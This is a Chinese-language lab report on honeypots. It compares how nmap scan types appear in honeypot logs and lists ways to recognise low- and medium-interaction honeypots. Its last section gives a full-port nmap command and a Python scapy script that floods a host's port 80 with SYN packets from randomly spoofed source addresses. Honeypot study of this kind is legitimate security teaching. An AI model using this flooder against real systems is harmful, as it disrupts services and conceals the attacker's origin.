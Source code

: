 * 其中只有Tcp connect 检测时会被蜜罐记录，这是由于使用TCP Connect 扫描时不需要特殊的权限，但扫描方式不隐蔽，蜜罐的日志会纪录下大量密集的连接和错误记录。而其他扫描方式不会进行完整的握手，并不会被日志所记录。在TCP Connect 扫描期间，蜜罐中记录下tcp连接搭建的主机ip、端口号、时间、持续时间。TCP stealth scan可扫描到其22端口为打开状态，其他扫描中显示22端口为打开或过滤状态。

## 实验结论

- 如何辨别当前目标是一个「蜜罐」？以自己搭建的蜜罐为例进行说明；

在低交互蜜罐中，不能够给攻击者提供一个完整的操作系统环境，只是简单的记录连接。而在ssh-honeypot蜜罐中，虽然可检测到22端口的开放，但并不能进行三次握手连接，出现错误，依次可判断为蜜罐。

在中等交互蜜罐中，提供了完整的操作系统环境，但在使用一些较为高级的系统命令，例如curl而不是ping时，此“操作系统”会出现报错，并且暴露其蜜罐的真实身份与编译代码。而且使用命令行下载软件后也不能进行使用，故可辩别当前目标为一个蜜罐。

- （可选）总结常见的蜜罐识别和检测方法；

> 1.检测低交互蜜罐：
> （1）配置失真与资源抢夺
> 我们已经知道低交互蜜罐是不能够给敌人提供一个完整的操作系统环境，所以可以通过使用一些复杂的命令和操作，以及一些想不到的输出解决来检查是不是处在蜜罐环境中。
> 另外一种情况就是出现了配置失真，也就是说在一台机器上出现了两种不同平台的服务，举个例子：运行一个Windows的Web服务器同时运行了一个Linux的FTP服务器，这样的话就出现了配置失真。使用nmap -sV这个方法可以来观察开启的服务，如果发现了平台与服务不匹配的，说明这很有可能就是一个蜜罐。
> 与低交互蜜罐检测最主要的方式是通过网络，这样就意味着低交互蜜罐运行在一个具有正常操作系统的，只要是在操作系统中，不可能把所有的资源都分配给蜜罐，所以如果在蜜罐中执行一个很繁琐很耗资源的操作，这样蜜罐就会和其他服务进程去争抢资源，最直观的感受就是蜜罐的反应速度会慢下来。但是我们通常不具备这个权限来访问这种类型的服务或者是进程，所以我们必须得考虑从网络通信入手，增加蜜罐的操作负载，如果换一个角度想，可不可以让其他的服务去和蜜罐争抢资源，来拖慢蜜罐的反应速度，举个例子比如说如果蜜罐系统和一个web服务器同时运行在一台机器上，我们可以从web服务器入手，去给web服务器发送大量http请求，导致web服务器抢占大量计算机资源用来处理请求。这样就会让蜜罐的反应慢下来。
> 设计这样一个实验，假设我们有两台机器，一台机器是蜜罐服务器（192.168.1.100），另一台机器是入侵者（192.168.1.200），首先我们需要使用nmap去探测蜜罐服务器开了那些服务，使用如下命令：
>
> ```
> sudo nmap -sV -p T:1-65535 -Pn 192.168.1.100
> ```
>
> 等待一段时间之后会扫描到结果，假设其开启了Apache2 Server、SSH两个服务，我们可以编写一个简单的程序用来给Apache2 Server发HTTP数据包让其大量处理：、
>
> ```python
> \# coding = utf-8
> from scapy.all import * 
> from threading import Thread,activeCount 
> from random import randint
> 
> class Loop(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         ip = str(randint(0,255))+'.'\ 
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))+'.'\
>              +str(randint(0,255))
>         sr1(IP(src = ip,dst = self.remoteAddr)/TCP(dport = 80),retry = 0,verbose = 0,timeout = 3)
> 
> class Main(Thread): 
>     def __init__(self,remoteAddr): 
>         Thread.__init__(self)
>         self.remoteAddr = remoteAddr
> 
>     def run(self): 
>         limit = 140 
>         total = 0
> 
>         while True: 
>             if activeCount() < limit: 
>                 Loop(remoteAddr = self.remoteAddr).start() 
>                 total = total + 1 
>             print 'HTTP Flood Test:',total